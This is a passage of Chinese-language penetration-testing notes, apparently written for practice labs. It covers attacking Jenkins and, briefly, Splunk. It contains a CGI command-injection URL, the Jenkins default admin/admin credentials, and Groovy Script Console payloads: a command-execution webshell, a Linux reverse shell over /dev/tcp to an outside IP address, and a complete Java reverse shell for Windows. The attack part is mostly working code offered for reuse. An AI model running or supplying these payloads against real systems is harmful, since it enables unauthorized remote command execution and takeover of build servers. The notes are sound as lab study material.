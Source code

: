 ```http
```
- 漏洞利用
```http
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```
# Jenkins - 列舉與攻擊手法 
>[!本章重點]
>Jenkins是一款由Java編寫的開源的持續整合工具
## Jenkins列舉手法 
>[!warning] 小節重點
>沒啥列舉手法，基本上就是用眼睛看。
- Jenkins預設是8080 port，並且利用5000 port與ˋ slave servers 聯繫。
- 時常利用最高權限安裝。
- 預設密碼admin/admin
##  Jenkins攻擊手法
>[!warning] 小節重點
>Jenkins內建有一個Script Console，可以執行Apache Groovy，我們可以透過Script Console拿到shell。
### Linux Shell
- Webshell
```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```
- Linux Reverse Shell
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
### Windows Shell
- Windows Webshell
```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```
- Windows Reverse Shell
```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
# Splunk - 列舉與攻擊手法 
>[!本章重點]
>Splunk is a log analytics tool used to gather, analyze and visualize data. Though not originally intended to be a SIEM tool, Splunk is often used for security monitoring and business analytics.
## Splunk列舉手法
- 預設8000 port 